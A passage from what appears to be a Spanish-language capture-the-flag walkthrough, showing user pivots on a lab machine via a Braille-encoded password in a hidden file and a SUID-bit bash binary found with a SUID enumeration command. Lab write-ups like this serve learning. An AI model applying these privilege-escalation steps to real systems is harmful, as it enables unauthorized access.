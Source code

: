 ```bash
uid=33(www-data) gid=33(www-data) euid=1001(norberto) egid=1001(norberto) groups=1001(norberto),33(www-data)
norberto-5.2$ whoami
norberto
norberto-5.2$ 


```

YA ESTAMOS COMO NORBERTO.

Vemos lo siguiente :

```bash
norberto-5.2$ cat /home/norberto/.-/.miscredenciales
Hasta aqui no sirvio mi password

⠏⠗⠁⠉⠞⠊⠉⠁⠉⠗⠑⠁⠝⠙⠕⠗⠑⠞⠕⠎

Debes tenerlo a mano te sera util
Usa mis pass para escalar
feliz hack de firstatack
```

Es braile -> **PRACTICACREANDORETOS**

No parece funcionar.

Vamos a buscar archivos con SUID:
```bash
norberto-5.2$ find / -perm -4000 2>/dev/null
/tmp/norberto
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/baner
/usr/bin/sudo
/usr/lib/bash
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
norberto-5.2$ ls -la /usr/lib/bash
-rwsr-sr-x 1 maria maria 1446024 Jul 10  2024 /usr/lib/bash

```

Podemos convertirnos en maria.

YA ESTAMOS COMO MARIA.

En su directorio personal :

